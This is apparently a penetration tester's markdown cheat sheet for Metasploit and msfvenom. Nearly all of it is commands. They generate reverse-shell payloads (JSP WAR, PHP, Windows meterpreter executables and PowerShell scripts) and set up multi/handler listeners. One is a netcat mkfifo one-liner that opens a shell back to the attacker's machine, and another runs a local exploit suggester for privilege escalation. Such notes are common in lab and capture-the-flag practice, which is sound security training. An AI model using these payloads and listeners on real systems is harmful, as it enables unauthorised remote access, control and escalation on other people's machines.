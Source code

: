 
MSFconsole
---
```
search $TARGET_SERVICE
# search type:exploit
use X
options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```bash
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```bash
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```bash
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

Non-staged PHP reverse shell, netcat compatible

#msfvenom #revshell #php-shell

```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -f raw -o shell.pHP
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=tun0 LPORT=443 -f exe -o shell.exe
msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_https
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter_reverse_https;set LHOST tun0;set LPORT 443;run;"
```
the forward slash indicates that is a "staged" payload, the one with the underscore means it’s non-staged and can be handled by program like nc

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```

 ```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $LOCAL_IP;set LPORT 4444;run;" 
```